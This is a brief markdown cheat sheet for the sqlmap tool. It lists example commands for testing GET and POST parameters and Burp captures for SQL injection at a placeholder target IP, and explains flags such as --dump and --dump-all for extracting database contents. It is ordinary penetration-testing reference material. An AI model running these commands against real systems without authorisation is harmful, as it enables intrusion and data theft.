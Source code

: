 ```yaml
---
title: SQLMAP
summary: An automatic SQL injection and database takeover tool.
description: An automatic SQL injection and database takeover tool.
---
```


**[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)**

## GET Parameter


 > 
 > **<font color=red>sqlmap -u "http://</font>\[TARGET_IP\]<font color=red>/</font>books<font color=red>?</font>author<font color=red>=</font>Bob<font color=red>" -p</font> author**</br>
 > Look for SQL injection in author parameter.

## POST Parameter


 > 
 > **<font color=red>sqlmap -u "http://</font>\[TARGET_IP\]<font color=red>/</font>search<font color=red>" --data="</font>name<font color=red>=</font>Bob<font color=red>"</font>**</br>
 > Look for SQL injection in post parameter.

## Burp Capture


 > 
 > **<font color=red>sqlmap -r</font> \[fileFromBurpIntercept\] <font color=red>--batch</font>**</br>
 > Look for SQL injection from a BurpSuite capture.

## Flags


 > 
 > **<font color=red>-p</font>**</br>
 > Provide parameter which seems to be injectable.
 > 
 > **<font color=red>-u</font>**</br>
 > Provide URL for the attack.
 > 
 > **<font color=red>--dbms</font>**</br>
 > Tell SQLMap the type of database that is running.

 > 
 > **<font color=red>--dump</font>**</br>
 > Dump the data within the database that the application uses.
 > **<font color=red>--dump-all</font>**</br>
 > Dump the ENTIRE database.

 > 
 > **<font color=red>--batch</font>**</br>
 > SQLMap will run automatically and won't ask for user input.
